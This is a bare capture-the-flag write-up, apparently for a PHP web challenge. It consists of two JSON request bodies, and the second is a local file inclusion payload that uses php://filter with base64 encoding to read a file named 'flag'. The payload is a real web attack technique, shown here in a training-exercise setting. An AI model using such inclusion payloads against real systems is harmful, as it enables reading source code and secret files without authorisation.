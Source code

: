 # Write-up

```javascript
{"path":".", "page":"main" }
```

```javascript
{"path":"php://filter/", "page":"convert.base64-encode/resource=flag" }
```

